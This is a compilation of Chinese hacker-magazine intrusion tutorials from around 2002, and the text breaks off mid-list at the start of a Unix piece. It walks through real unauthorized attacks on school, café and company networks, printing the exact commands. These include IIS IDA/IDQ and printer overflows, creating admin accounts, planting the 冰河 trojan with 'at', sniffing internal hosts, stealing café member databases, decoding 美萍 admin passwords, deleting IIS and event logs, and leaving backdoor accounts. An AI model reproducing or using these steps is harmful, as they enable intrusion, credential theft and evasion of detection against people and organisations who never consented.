随着黑客技术的不断发展，入侵内部网络变得越来越简单易行。对于很多刚刚接触黑客技术的朋友，一定会认为入侵内部网络是件十分困难的事情，实际上，并不是这样的，只要了解了网络的工作原理，入侵内部网络并不是什么不可能完成的事，甚至会变得十分简单。

本篇文章就带领大家来完成一次简单的内部网络的入侵，同时还会传授给大家一些在入侵内部网络中十分有用的知识。

## 2 理论知识的准备

很多人都不太喜欢看这些理论知识，但是要想成为一个好的黑客，就必须学会一些你非常不愿意去学习的东西。对！你要了解的就是这些枯燥的理论知识，这是任何一个黑客都必须走过的路。

首先要了解局域网中的机器是如何与外界通信的。由于局域网内部的机器都没有合法的 IP 地址（就是说它们使用的是未经过注册的 IP 地址，是自己虚构的），因此它们是不能直接和外界通信的，这时就需要一个叫做网关（Gateway）的东西了，而网关其实大部分都是由一台主机来充当的。为了方便理解，大家可以把网关理解成一个功能强大的集线器（HUB），别说连 HUB 是干什么用的都不知道哦！网关有一个经过注册的合法 IP 地址，内部网的机器都连接到这台机器上，通过网关来与外界通信，达到上网的目的。


也许大家会产生疑问，那当外界发送数据给 A、B、C 中的一台机器的时候，由于三台机器使用的都是网关 G 的 IP 地址，那怎么分辨数据包是给谁的呢？呵呵，刚才不是说过了吗？G 会分配三个端口分别给 A、B、C 使用，对！G 也就是通过这三个端口来区别 A、B、C 三台机器的，因为在外界发送数据包给 A、B、C 中的一台机器时，在数据包的包头中不但有目的 IP 地址，还有目的端口号，所以网关 G 很容易就区分出数据是发给谁的了。这就是为什么很多人在自己的显示 IP 的 QQ 上有时候会看到一些在网吧上网的人的端口号并不是 4000 的缘故，而看到的 IP 地址其实也是网吧服务器的。

OK！大家已经基本了解了吧！接下来要实战了。

## 3 锁定目标

根据上面的讲述，我们可以把目标锁定在一些网吧、校园网络、中小型企业，因为这样的网络大都是采用上面讲述的方式上网，而且这些网络的网管大都安全意识薄弱，很容易入侵。

例如，我就经常入侵我们学校的对外服务器，以便上一些在校园内不能够登录的网站（嘿嘿，不要被校长看到，否则就……）。

## 4 攻击主机

一切准备都做好了，我们就要开始了。我的目标是从 QQ 上找到的，我用的是珊瑚版的 QQ，可以看到 IP 和端口号。

有一次我注意到一个和我聊天的人的 IP 和端口形式为：xxx.xxx.xxx.xxx:1336，这就引起了我的怀疑，于是在 IE 的地址栏里填上地址 xxx.xxx.xxx.xxx，果然，看到了一个学校的主页，看来他们的校园内部就是通过这台服务器上网的，只要攻陷了这台服务器就可以进入他们的内部网络了。

我习惯性地在地址后面加了个 *.ida，呵呵，居然可以哦！如图 1 所示。


太走运了（也许大家不会这么走运，但也不要灰心哦！由于这里要讲的不是漏洞的利用，而是如何入侵内部网络，所以我就采用这个简单的漏洞来进入了），至于如何利用 IDA 漏洞入侵，在《黑客 X 档案》的第五期已有详细介绍了。

我们还是选用 IISIDQ 这个工具，在绑定命令处写上 cmd.exe /c net user ghost python /add。如图 2 所示。


然后点击“idq 溢出”，等待出现结果后，用“军刀”（NC）的命令 nc -v ip 5000（IP 为对方 IP 地址，5000 是我在 IDQ 溢出时选择的监听端口，可在 IISIDQ 中自己更改），过一会儿会出现“命令成功完成”的提示，如图 3 所示。

这时，我已经创建了一个名为 Ghost、密码为 python 的用户。然后，仍然是 IISIDQ，绑定命令处换成 cmd.exe /c net localgroup administrators ghost /add，然后再溢出一次，用“军刀”又会观察到成功信息，这时候我的 ghost 用户已经是管理员了。接下来该怎么办呢？由于我只有登录了那台服务器，我才可能和内部的网络直接通信，所以最直接的方法就是采用 Telnet 的方式连接上去（当然，自从 Win2000 问世后，就又有了一种 Terminal Service 登录的方式，即为大家熟悉的 3389 端口打开的服务），所以仍然是 IDQ 溢出，绑定命令为 cmd.exe /c net start telnet，过一会儿，“军刀”会观察到 telnet 启动成功的信息，如图 4 所示。


这时候我们可以 Telnet 上去了，可是……有个问题，就是 NTLM 验证的问题，一般我们都采用上传 ntlm.exe 的方法来取消 NTLM 验证，现在我们来利用另外一种方法（这种方法仅限于 Win2000 使用）。大家了解 NTLM 验证吗？简单地说，假设 TEL 服务器 T 和客户端 C，T 上有一个用户名为 TEL、密码为 123 的用户，而 C 要想 TEL 到 T 上，那么 C 就必须有一个名为 TEL、密码为 123 的用户，且 C 机当前登录用户即为 TEL（大家就可以这样简单理解，具体的自己看一些资料）。

OK！既然这样，首先我们为 cmd 创建一个快捷方式，然后右键点击这个快捷方式，并选择“属性”，在出现的菜单里选择“快捷方式”选项卡，中间可以看到“以其他用户身份运行”，只要在前面打上勾就可以了，如图 5 所示。


然后双击这个快捷方式，会出现一个对话框，询问你要以哪个用户的身份运行这个程序，用户名处填上 Ghost，密码为 python，确定就可以了。这时候 Telnet 上去，怎么样？通过 NTLM 验证了吧？至此，我们已经攻占了这台主机了，由于这台主机是内部网络的出口，所以接下来的工作就会变得相对容易一些了。

## 5 进一步的渗透

既然现在已经攻占了服务器，接下来看一下内部网络的 IP 分布了。怎么查？呵呵，ipconfig 命令啊！在 Telnet 窗口里输入 ipconfig 命令（输入 ipconfig /all 会得到更全面的信息），可以看到两块网卡的情况。大家有疑问了吧？为什么是两块网卡呢？当然了，我说过，内部网络要通过网关上网的，因此就决定了网关必须拥有两个 IP 地址，一块要与内部网连接，一块要与 Internet 连接。

有人问我，通过修改注册表不是可以给一块网卡绑上两个 IP 吗？为什么还需要两块网卡呢？如果大家动手做过的话就知道了，修改注册表确实可以为一块网卡绑上两个 IP，然而在应用的时候并不能同时使用两个 IP，只能把一个 IP 作为当前使用的 IP，另外一个作为可选 IP 使用，明白了吧！这显然不能满足网关的要求。

现在已经知道内部网络的分布是在 192.168.0.0/255.255.255.0 这个网段上，那我们怎么确定攻击目标呢？因为内部的机器肯定不会像服务器一样整天开着机器，内部机大部分都是私人使用的机器，都是要随时关机的，所以我们要确定当前有哪些内部的机器是活动的。

这个怎么办呢？呵呵，好办啊！我们可以用嗅探器监听。这里建议使用 X_sniff（和《黑客 X 档案》可没关系哦！）工具中的 Xsniff，因为它小巧容易上手，而且速度又快。另外一个很重要的原因是它不会被杀毒软件视为病毒，所以可以放心使用。

利用 Xsniff 在主机上监听通过主机的 TCP 数据包，就可以知道有哪些机器开着（也可以监听其它协议的数据包）。既然已经确定，那么开始上传。呵呵，上传又遇到问题了，对方除了 ipc$ 以外，其它的默认共享全关了，不过不要紧，我们已经 Telnet 上去了嘛，给他开个共享，用命令 net share c=c:\winnt\system32，共享对方的 system32 目录，且共享名为 C，如图 6 所示。


然后打开一个 cmd 窗口，与对方主机建立连接以便上传 Xsniff，键入命令：

```text
net use \\ip\ipc$ "python" /user:"ghost"
```

一会儿返回命令成功信息，然后我们就可以上传了，用命令：

```text
copy e:\xsniff.exe \\ip\c
```

/c 是对方 system32 目录的共享名。

上传成功后会返回信息。这里再说两句，如果对方装有防火墙，可能会禁止 IPC 连接，但是不要紧，因为我已经 Telnet 上去了，所以我可以在 Telnet 窗口里和我自己的机器建立 IPC 连接，并 COPY 需要的文件（就像利用对方的 Telnet 反过来入侵我自己的机器一样），这样一般来说都能躲过防火墙（像网络神偷、灰鸽子等端口反弹型的木马就是利用这样的原理）。

接下来就要监听了，由于我直接连到了对方的 system32 目录下，所以我们可以直接使用这个命令，而不需要转到 system32 目录下，格式如下：

```text
xsniff -tcp
```

夹杂着大量其他的 IP（还有我自己的 IP），所以千万要分清楚。也可以使用命令：

```text
xsniff -tcp >> c:\winnt\system32\sniffer.txt
```

然后再转到 system32 目录下用 EDIT 命令查看，或直接把这个文本 DOWN 到自己机器上看，找到 192.168.0.0 网段的机器，这些机器就是攻击目标了。接下来就有很多方法了，例如可以上传并使用 X 系列的 Xport 来扫描一台内部机器的端口，或上传 X-scan，然后用 X-scan 的命令行格式进行扫描。但我认为最好的方法是在服务器上种植 Sensor 来扫描。这就看大家自己了，我也就此收手了，因为入侵思路都已经给大家讲清楚了，没必要再继续。这里说几句，一般说来，内部网络（尤其是学校）都使用 Win98 的系统，而且都会共享很多好东西，最严重的问题就是由于大家的安全意识差，认为黑客不可能进入内部网络，所以很少打补丁或是对数据做加密处理，这样一来使得黑客在进入内部网络后，非常容易完成进一步入侵。

还有，别忘了这个命令：net share c /delete，因为我把别人共享了一个 system32 目录嘛，如果不给人家还原回去的话，下次人家一不乐意就不让我再进去了，呵呵（对方的管理员一记重拳……）

有些人对于入侵内部网络问过这样的问题：是否需要清除内部网络中被入侵机器的日志记录。怎么说呢，按我的想法，如果你真的能进到一个内部网络的话，那么我想，这个网络管理员的安全意识一定不怎么样，再加上内部网络中的机器上的日志中记录的是服务器对该机的访问，所以这样一来管理员也就不会很重视。即便你在内部网络的机器上留下了些什么，他也不会注意的。弄不好还有些笨得可怜的管理员在想：“咦！？我什么时候访问过这台机器呢？”。所以，完全没有必要。但是对于一些知名大公司的内部网络，或是涉及到一些机密部门的内部网络，呵呵，大家就要小心了，而且我劝大家对这样的部门也最好别打什么歪主意，最后倒霉的可是你哦！连笔破枪都有人拿它当烧火棍，更别说我们这群小菜了，哈哈……


以上方式是基于 Telnet 的入侵，如果大家能够的话，可以在利用漏洞装完程序后再开对应的 3389 端口来使用远程 Service 呢。总之，如果对方没有安装的话，可以给他装上。这方面的资料很多，我就不多说了。


最后，我们别忘了擦掉自己的脚印，可能留下记录的位置很多，给大家列出：

```text
C:\winnt\system32\logfiles
C:\winnt\system32\config\*.evt
C:\winnt\system32\dtc*.log
C:\winnt\system32\*.log
C:\winnt\system32\*.txt
C:\winnt\*.txt
C:\winnt\*.log
```

还有些 log 是无法删除的，例如在进入 C:\winnt\system32\logfiles\w3svc\ 这个目录后，用 del *.* 命令的话，会提示你有一个进程正在使用该文件，无法删除等等的信息，这时候只要用 net stop 命令停止相应的服务就可以了，例如：net stop w3svc。然后再进行删除，删除完毕后别忘了再用 net start 把服务给人家打开，否则就露馅了……


大家看到这里，“服务”和“日志文件所在文件夹”的名字是一样的，例如我所举的例子中的 W3SVC 服务。这样一来，应该就可以判断是哪个服务。

OK！基本上这样就算是完成一次入侵了，大家看一看，也挺简单的吧？呵呵，就是嘛，多学习多分析，菜鸟又怎么了？很快就成大虾了^-^

# 一、没有越狱，恨久见

学校旁边有个网吧，里面有好多电脑，每当我在那烟雾缭绕中，听着震耳欲聋的枪炮声时，总会莫名其妙地想：可惜了这些电脑。

老板是个小眼睛滴溜溜转的小男人，有着两撇趾高气扬的胡子。说实话，我并不喜欢那两撇胡子。

一天去上网，发现他有了个主页，还挺精致的，看来是新做的。上面没有多少内容，放了些电影和各式的小说。盯着主页看了一会儿，脑中突然灵光一闪，直觉告诉我，这是一个文件服务器，而且应该是 2000 + IIS5。心头一阵窃喜，如果是的话，那，哈哈……，一脸胡子上翘的老板，我并无恶意。

我找了个人多、不是太隐蔽、但绝对不会让人在意的机子。网吧的管理系统是万象，禁止了访问系统盘，而且不允许下载。这并没有关系，随便打开一个网页，双击“收藏”下的“链接”，即可打开一个系统窗口，按两次 F4 上键，即可进入 C:\WINDOWS。现在把 C:\WINDOWS\system 下的 inetcpl.cpl 改名为 inetcpl.cpp。OK！回到浏览器，点“工具”->“Internet 选项”->“安全”->“默认级别”->“确定”即可下载了。

从网上拉回工具包，解压缩，准备就绪。

从主页可知文件服务器的 IP 为 192.168.0.100。扫的就是它，不出所料，很快就出现了令人兴奋的东西：Printer 溢出、Ida 溢出、IDQ 溢出、没有 Unicode 漏洞。也是，主页上不存在，一个足矣。

我本人最喜欢的是 Printer 溢出，好像也没有什么理由，反正喜欢，那就开始吧。打开 DOS 窗口：

```text
C:\>D:\SSHack.exe 192.168.0.100 80 0
IIS5 remote printer overflow writer by sunx
http://www.sunx.org
for test only,dont used to hack
connect...
now you can telnet to 99 port.
good luck

C:\>telnet 192.168.0.100 99
```

没连接上，如果将主机类型换为 1，嗯：

```text
C:\>D:\IIS5HACK.exe 192.168.0.100 80 1
C:\>telnet 192.168.0.100 99
```

OK！成功了！Telnet 窗口出现了：

```text
C:\WINNT\system32>
```

我已进入了主机，得到一个 shell。随便逛了逛，没发现什么特别的，看看用户。

```text
C:\WINNT\system32>net user
```

> 注意：此时不能回显，纯按键盘，并且不能出现相应的字符，将 Telnet 的终端、本地编码定对了。

在用户里我发现一个 babo 的用户，这刚好是网吧的名字。网吧的万象系统密码我破解了，会不会……密码！！不急，再看看：

```text
C:\WINNT\system32>ipconfig /all
```

其默认的网关是 192.168.0.1。于是我扫了一下网关，NT 系统，默认的共享都有，没删的。我想，既然文件服务器有一个 babo 的用户，那么这个机子有没有呢？它的密码与万象系统的密码是不是相同呢？我正在猜网管的弱点。试试看：

```text
C:\WINNT\system32>net use \\192.168.0.1\IPC$ love123 /user:babo

The command completed successfully.
```

猜中了！还有什么比这更令人欢快的呢？下面我将冰河服务端传上去。

我将冰河所在的文件夹完全共享为 W，将冰河服务端改名为 run.exe，在 DOS 窗口里看看自己的 IP：

```text
C:\>ipconfig /all
```

我的 IP 为 192.168.0.13，呵呵，网管倒是蛮狡猾的，我是机号为 12 号，我还以为我的 IP 一定是 192.168.0.12 呢！幸好看了一下，不然就惨了。回到服务端：

```text
C:\WINNT\system32>copy \\192.168.0.13\w\run.exe
```

将冰河服务端从自己的机子上拷到文件服务器。

```text
C:\WINNT\system32>copy run.exe \\192.168.0.1\ipc$\system32
```

将冰河服务端从文件服务器拷到网关。

好了，看看网关的时间：

```text
C:\WINNT\system32>net time \\192.168.0.1

Current time at \\192.168.0.1 is 8-2-2002 19:29
The command was completed successfully.
```

现在可以远程启动它了：

```text
C:\WINNT\system32>at \\192.168.0.1 19:31 run.exe
```

新加了一项作业，哇，推光了！

尽快地玩几分钟吧。听完歌，回到战场，启动自己机子上的冰河客户端，连上主机 192.168.0.1，想不到的是，万象的主控端就是这台机子。整个网吧的一举一动尽收眼底，我还有什么好说的呢？

我不敢呆得太久，毕竟在老板的眼皮底下，这可不是闹着玩的。我下载了他的数据库，看看是什么让老板的胡子如此趾高气扬。

```text
C:\WINNT\system32>net use * /del
```

断开与网关的所有连接。

```text
C:\WINNT\system32>exit
```

退出 shell，屁股留给老板去擦吧，反正上机又没登记，谁知道谁是谁啊！

随便登录了一个论坛，看看自己的网上 IP，记好。删掉自己的工具包，删掉历史记录。886…

换个网吧，用冰河的客户端连接到那个 babo 的主机，啊哈……卸载了他的冰河！

写这篇文章，我无意教人破坏。整个入侵的过程包含了一些技巧与不足技巧的东西，事实上，这只不过是众多网络入侵的一个缩影。

网络上，这样脆弱的机子太多了，而这些机子，即使是在网吧玩游戏的 Win98 上也依旧可以轻易攻破。这使我不得不汗颜。

在本刊第 4 期的《评述 Windows 2000 的日志文件及删除》一文中，曾介绍了删除 IIS 历史记录的一种方法，就是停掉“task scheduler”服务。现在向大家介绍另外一种删除 IIS 历史记录的简单办法。

首先，我们必须得到服务器的管理员权限。启动扫描器，我用的是 x-scan，不一会儿就找到了一台 61.155.*.* 主机，它存在 NULL.ida & NULL.idq 漏洞溢出，使用溢出工具对其进行溢出，然后用 nc.exe 进行连接。

```text
G:\hacktool>nc -vv 61.155.*.* 813
warning: forward_host lookup failed for AAA-87MPW23PTTO.hermo-11001.HOST.NOTFOUND
AAA-87MPW23PTTO [*.*.*.*] 813 (?) open

Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>
```

好了，溢出成功，已经拥有管理员权限了。

```text
C:\WINNT\system32>cd logfiles
C:\WINNT\system32\LogFiles>cd w3svc1
C:\WINNT\system32\LogFiles\W3SVC1>dir
```

驱动器 C 中的卷没有标签。  
卷的序列号是 E4C5-D243。  
下面是 C:\WINNT\system32\LogFiles\W3SVC1 目录。

| 日期 | 时间 | 大小 | 文件名 |
|---|---|---:|---|
| 2001-02-06 | 18:06 | <DIR> | . |
| 2001-02-06 | 18:06 | <DIR> | .. |
| 2002-08-24 | 12:01 | 549 | ex020824.log |
| 2002-08-26 | 21:25 | 87 | ex020826.log |

## 黑客X档案2002-2003年合订本

# 一个人的战争

| 日期时间 | 大小 | 文件 |
|---|---:|---|
| 2002-09-08 09:12 | 724 | ex020908.log |
| 2002-09-10 10:51 | 982 | ex020910.log |
| 2002-09-18 16:42 | 1,642 | ex020918.log |

ex020918.log 文件中存放的就有我们刚才的扫描记录，该文件被系统保护，直接用 del 删除的话，系统会提示“进程无法访问文件，因为另一个程序正在使用此文件”。来吧，跟着我做：

```text
C:\WINNT\system32\LogFiles\W3SVC1>date
当前日期：2002-09-18  星期三
输入新日期：<年月日> 2002-09-09
```

在输入新日期的时候，我们可以随便输入，只要不是原日期就可以。我之所以选择 2002-09-09 这个日期，是因为这个历史文件不存在，不会与别的历史记录发生冲突。

现在系统的日期已经被成功地修改成 2002 年 9 月 9 日了，不过 ex020918.log 这个文件仍然被系统保护，无法删除。

打开 IE 浏览器，在地址栏输入：http://61.155.*.*/default.asp，对该网站进行一次登录，此时，你会发现，系统已经不再保护 ex020918.log，转而去保护 ex020909.log 这个历史文件了。

```text
C:\WINNT\system32\LogFiles\W3SVC1>del ex020918.log
C:\WINNT\system32\LogFiles\W3SVC1>cd ..
C:\WINNT\system32\LogFiles>cd MSFTPSVC1
C:\WINNT\system32\LogFiles\MSFTPSVC1>del ex020918.log
```

删除掉 FTP 的历史记录。

最后别忘了将系统日期恢复过来。

```text
C:\WINNT\system32\LogFiles\MSFTPSVC1>date
当前日期：2002-09-09  星期一
输入新日期：<年月日> 2002-09-18
```

系统日期修改回来之后，为了让系统重新转去保护 ex020918.log，我们还必须在浏览器中对该网站进行一次正常的浏览。


如何入侵网站内部系统，许多朋友都会感到棘手些。我向各位介绍一个简单办法，就是利用资源共享漏洞。

资源共享漏洞，可以说是一个非常古老的安全问题了，可是直至今日，这个安全问题仍然在许多个人电脑及局域网中存在。这使得黑客在人侵接入了 Internet 的服务器后，进入内部网络有了一个简单而又方便的途径。

首先，我们必须得到目标服务器的管理员权限，方法有很多：IDQ%、IDA 溢出，Unicode 漏洞等等都可以。

在这次实战中我先找到一台有 IDQ%、IDA 漏洞的主机，用溢出对其进行溢出，得到了对方的 system 权限。“//”后面是我的部分注解。

```text
E:\tools>nc -vv 61.13.*.* 813  // 成功得到对方的 system 权限
C:\WINNT\system32>net view

\\14
\\18
\\114
\\QK

// 显示出了共享资源的清单。
```

```text
C:\WINNT\system32>net view \\QK

101-file      Disk
102-file      Disk
103-file      Disk
......        ...
153-file      Disk
FTP           Disk
off2kcs       Disk
x             Disk

// 显示位于 QK 中的共享资源的详细信息。
```

```text
C:\WINNT\system32>net use K: \\QK\off2kcs
C:\WINNT\system32>net use L: \\QK\FTP

// 将 \\QK\off2kcs 映射成 K: 盘，\\QK\FTP 映射成 L: 盘。
```

```text
C:\WINNT\system32>K:   // 登录 K: 盘，也就是 \\QK\off2kcs
K:\>
```

接下来我们就可以像使用自己机器上的磁盘一样方便地使用 K: 盘了，dir、md、cd、del……我们具体的操作还要看对方开放的是什么共享。如果是只读共享，那就只能复制一下文件，查看一下文本文件内容什么的；如果是完全共享的话，那就随便你了。最后别忘了与 \\QK\off2kcs、\\QK\FTP 断开连接。

```text
C:\WINNT\system32>net use \\QK\off2kcs /delete
C:\WINNT\system32>net use \\QK\FTP /delete
```

记得撤退前在那台主机上留下自己的后门帐号。


# 一个菜鸟的实践之路——网吧入侵日记


聊神

在第五期中我们已经介绍了万象软件的漏洞，在这里我将介绍美萍网管大师的两个重大漏洞和美萍电脑安全卫士的密码存放漏洞。

因经常在网吧上网，网吧里的限制太多，而且我经常上网那家网吧的老板斤斤计较，十分令人讨厌，所以决定入侵他。最初入侵是为了破解上网的限制，而后来则是为找到网吧的会员及其密码，但最终目的还是想把书上的理论知识通过实践来加深印象。

### 首先我制定了一个入侵计划：

- 1. 破除美萍的限制。这样可以方便以后的人侵工作。（后来我又发现可以在破除美萍后，用会员登录，然后退出登录，从桌面上调用程序，而不用付费。）
- 2. 安装木马，获取上网的密码。
- 3. 找到网吧主机的 IP 地址，这样就能在其它地方进行入侵，而不用在网吧内进行入侵，能避免网吧里人多眼杂。
- 4. 知道 IP 后就用扫描软件进行扫描，得到想要的信息，如服务器的操作系统是什么，用户名是什么，共享目录有几个等。
- 5. 通过黑客方法进入网吧主机，找到其存放会员密码的文件，并发送到我的邮箱里。
- 6. 在家里收取邮件，并解密，找出会员的密码。

## 计划是想到了，真正要实施起来问题就来了。

第一步，实施破除美萍。破除美萍的方法《黑客X档案》前几期已经多次介绍了，这里也就不多说了，我只说我实施破解时的具体情况。

## 2002年7月5日

今天，我来到网吧。当时我在网上知道有破解美萍密码的软件，因为美萍的密码存放在注册表中。于是我在网吧里下载了破解软件，但此破解软件只能破解 7.5 以前的密码，对这家网吧使用的 8.7 版的美萍也就无能为力了。

于是我导出注册表，发送到我的邮箱中，以便回家再破解。（后来才知道，这家网吧有还原精灵 5.1，所以设有对注册表作限制。而有的网吧对注册表作了限制，你根本不能使用注册表。在这里注册表限制与否并不重要，因为 8.7 版的美萍已经不再把密码文件放在注册表中。）

回到家后，从网上下载了美萍 8.7 版，用“Regsnap”注册表比较软件比较了美萍 8.7 版放密码的位置，找到存放位置是在“psetup”、“pquit”、“pexit”键下。我想，只要把注册表中存放密码的键值改为我的密码，下次再导入我的注册表文件，就能用我的密码进入美萍安全卫士，而不用他的密码，这样就达到了破除美萍密码的目的。于是我把邮箱中的注册表，也就是网吧注册表中的“psetup”键值（它是进入设置时的密码）导入我的注册表，然后进入美萍设置，发现密码并没有改变，而且又变回到改动前的密码。原来美萍存放在注册表中的密码改动，并不会改变美萍的密码，说明 8.7 版的密码并没有存放在注册表中。

## 2002年7月10日

我想，通过修改注册表密码不能成功，能不能用其它的方法解决呢？既然网吧安装有还原卡或者是还原精灵等还原软件，那么只要重新启动计算机，系统将会还原到以前的设定。如果不重新启动就不会还原了，这样只有强制结束美萍的进程了。

“Ctrl+Alt+Del”键可以结束系统进程，但是美萍它不允许用这个组合键。后来我在书上看到了“Winproc”这个系统进程结束软件，可以用它结束系统进程。我下载下来执行后，发现有一个“smenu”进程名，这就是美萍安全卫士的进程，双击它成功地强制结束了美萍进程（柳叶擦眼也能结束系统进程）。接着我发现美萍被强制结束后，Windows 桌面的“开始”菜单不能按，而且机器开机后你才能破除美萍，破除后仍然不能退出登录会员账号，系统依然要计时、计费。（虽然破除了美萍安全卫士，但是没有达到不付费的目的。）

## 2002年7月18日

如果能够破除它的密码，就能在网吧里进入美萍设置并且改变设置。看样子还是要在家里好好研究美萍的密码破解。这一天我在家里把美萍“没有密码”和“有密码”的文件分别复制到两个目录下，偶然发现，把“没有密码”目录下的文件全部覆盖到“有密码”的目录下，美萍安全卫士上的密码也就没有了，这就是说它的密码是存放在安装目录下的。于是我把“没有密码”的文件一个一个地拷贝到“有密码”的目录下（还好，只有十几个文件；如果是存放在 Windows 目录下，那成百上千个文件我怎么也找不出来了），并且拷贝一个文件执行一次美萍，查看密码有没有改变。终于，我发现当“semen.jst”这个文件被覆盖或改动后，密码就会发生改变，这就说明美萍的密码存放在“semen.jst”文件里。如果你把它删除，密码就会为空了。

晚上在网吧，我用了 7 月 5 日的方法破除美萍后，在“semen”这个文件夹中找到“semen.jst”这个文件，删除后，重新运行美萍，选择退出登录，然后进入设定系统，这时不用输入密码就能进入，选择模式为普通不计时模式，保存后就能进入美萍环境，而不用登录会员就能使用了，当然也可以直接退出美萍，在 Windows 桌面下调用文件。

不过在装有美萍网管大师的服务器上能够发现你这台计算机处于待机状态，这样管理员就会发现你在捣鬼了。

后来，我在书上看到了有比较文件的软件，更为简便，可以直接把两个目录下的不同文件找出来。

**注意：** 当美萍运行时，semen.jst 这个文件将无法删除。只有在强制结束美萍后，再删除它，然后进入美萍，密码才会为空。

到现在为止，已经完全破除了美萍。如果没有系统还原，那么这时就能安装木马，来记录上网的帐号和密码了。

在安装目录下存放密码文件，这就是美萍安全卫士的一个漏洞。本来安装目录下的文件就少，还有一个是用来存放密码文件的。像我这样的菜鸟都能破除，如果是高手就更不用说了。希望美萍公司把下一代的安全卫士密码放在备份目录里和 Windows 系统目录下，当执行美萍时比较文件密码是否不同，如果不同则不让进入美萍，并把另一个密码备份目录复制到执行时调用的文件目录下。

因为技术有限，现在还没有破除还原精灵 5.1，只好实施第三步，找到网吧主机的 IP 地址，这样就能在其它地方进行操作，不用在网吧内进行入侵。

## 2002年7月24日

我在网吧中，退出美萍，进入网络邻居，看到多台电脑，其中有名为 server、server1、network 等，但是许多电脑没有设置共享，不能看到其中文件，只有名为 server 的电脑有共享目录，共享目录主要是用来存放影片和歌曲的（如 public）等，以便局域网用户能够更快捷地观看电影，有的共享目录则要求输入密码和用户名，或者提示错误信息。

我进入控制面板中的网络选项，通过机器的网络设置可以看到网关为 131.131.10.100，也可以在美萍设置中找到网关设置。说明内部局域网都要登录到上面去，也就是所有的会员资料都在它上面。我在 DOS 环境下执行“nbtstat -a 131.131.10.100”，得知它有一个共享目录就是 server。这就说明 131.131.10.100 是服务器的内部 IP，server 共享目录也就是它 131.131.10.100 下面的共享目录，但我当时只知道它的内部 IP，而不知道它的外部 IP。

网吧都是通过一台服务器对外连接的，只有服务器是连接到 Internet 上的，只有一个对外 IP。

用“ping -n 1 -r 9 XXX.XXX.XXX.123”命令可以显示从本机到 XXX.XXX.XXX.123 所经过的所有路由地址，但是路由器的地址不一定就是服务器的地址。后来我又通过显示 IP 的 QQ 把自己加为好友，这样就能看到自己的 IP 地址，也就是它的对外 IP 地址“XXX.XXX.XXX.187”。这样就可以不在网吧，而在家中入侵它的服务器了。

得到 IP 地址的方法有很多，你还可以登录到一些网站的“论坛”，从而查看到主机的外部 IP。

## 2002年8月11日

知道主机的外部 IP 地址后，用“X-scan”扫描 XXX.XXX.XXX.187，发现在 FINGER 重定向漏洞，开放 21、29 端口，存在用户名为“ZHANG”的 guest 组用户，口令为空，存在 IPC$ 空连接漏洞，有 Windows 默认共享目录 c$、D$、E$、F$、ADMIN$、IPC$，系统管理员 ADMINISTRATOR，受限管理员 YYP 的用户，但是不知道密码，并且知道它是 WINNT5.0 系统。

可是我不知道 FINGER 重定向漏洞的用法，只好用“ZHANG”的空口令连接上去，发现用户权限太小，没有读写权限，这和根本不能利用不是一样吗？只好暂时放弃。

## 2002年8月15日

今天是关键性的一天，我今天在网吧，进入网络邻居，一个偶然的机会，在 public 共享目录里发现了 scon 文件夹（这就是美萍网管大师所在的文件夹，也就是所有会员的资料都在这个目录下），我当即就把 scon 文件夹内的所有内容都发到我的邮箱里面了。

晚上回到家，收到邮件，并下载了一个美萍网管大师 7.81 安装。在网管大师的说明文件里，我知道 MEMBER.CFG 是会员数据库文件，MEMBER.IDX 是会员索引文件，只要把邮件里的这两个文件复制下来就能够知道所有会员的信息。我把它们复制到网管大师 scon 目录下，当我执行美萍网管大师后才发现所有的资料是 2000 年 4 月份的，并且所有会员的密码都是用“*”号显示的。当然现在有许多软件可以显示“*”号下的原文，比如我用了一个名为“Revealer”显示密码的软件就能让所有会员的密码都显示出来。


所有这些资料都是很久以前的了，对我来说也没有太大的意义。如果能得到现在的资料就好了，管它的，先看看有没有什么可以利用的资料。

接着我又仔细研究了美萍网管大师及邮箱里拷贝来的资料，结果在邮箱里的 manager.ini 文件中发现了一行“远征鹏==x{z}|图^qpy”字符，我把 manager.ini 文件复制到我安装的 scon 目录下再进入到美萍网管大师里，发现有系统管理员“远征鹏”；原来“==”前面的是系统管理员的姓名，后面是系统管理员的密码。然后我将 manager.ini 中“==”后面的那串字符删掉后，进入网管大师，发现密码没有了。在几次重新更改密码后，我发现了“x{z}|图^qpy”原来表示 1234567890，分别对应每个数字，十分简单。你只需要在网管大师的系统设置里选择“管理员”，并在里面增加一个系统管理员，密码为 1-9 和 a-z，保存后，再在 manager.ini 文件中找到一一对应的字符就行了。这时我发现这个“远征鹏”不就是我在扫描结果里发现的管理员“YYP”中的中文名字吗？如果密码和 NT 管理员“YYP”的密码相同，我就能进入他的主机了。已经疲极多了，该休息了！

## 2003年8月16日

今天我很早就起来了，在通过昨天的密码成功地进入了网吧的系统之后（进入过程就不多说了，你可以查阅《黑客X档案》前几期文章），虽然“YYP”有读权限，但已经足够了，我在 D$ 下找到了 scon 目录下的 memberbak 目录，这里面是最近的十次会员资料备份，我复制了下来。用昨天的方法，成功地找到了几个还有上百小时网费的会员，并且还有包月的。

到此，这次入侵基本已经完成，达到了得到会员资料的目的。这也就是我所说美萍网管大师的两个重要漏洞：

- 1、美萍网管大师的管理员密码是经过简单的加密后，存放在 manager.ini 中，用写字板就能打开，而且在里面改动密码后，就能成功进入设置中。
- 2、美萍网管大师的会员是存放在 member.cfg 和 member.idx 两个文件中，只要将两个文件复制到自己的没有设置密码的美萍网管大师下就能调用。

以上内容仅供学习交流，请不要进行破坏活动，否则一切后果自负。本人虽然得到了会员密码，但并没有用，因为这属于偷盗行为，要想人不知，除非己莫为！

这么多天的研究实践，使我的理论知识得到了更进一步的加深。在此我非常感谢《黑客X档案》给我提供了了解和认识黑客，进入黑客世界的机会。非常遗憾的是没能成功对付木马和破解还原精灵。希望能与大家多多联系，共同交流经验和心得，共同进步。

从来都没有用过 Unix 的网络新手，怎样入侵 Unix 呢？能否成功入侵 Unix 呢？到底对 Windows 的网络新手，不想换一个操作系统玩玩新鲜吗？今天我把我入侵 Unix 的小小心得写出来献给大家，希望能给大家带来更多的惊喜，丰富大家的网络知识。

## 一、入侵的原理

利用 Unix 远程溢出漏洞进行渗透入侵。众所周知，Unix 是用 C 语言编写的，C 语言写的程序如果定义不当就会产生缓冲区溢出漏洞。

## 二、入侵的工具

网络新手想成功进入一个系统，完成一次成功的入侵，不用工具是不可能的。现在我就向大家介绍一下我完成这次入侵的工具：

- 流光 4.7 + 破解补丁：大名鼎鼎小榕写的扫描器，速度很快，结果详细，很容易上手；
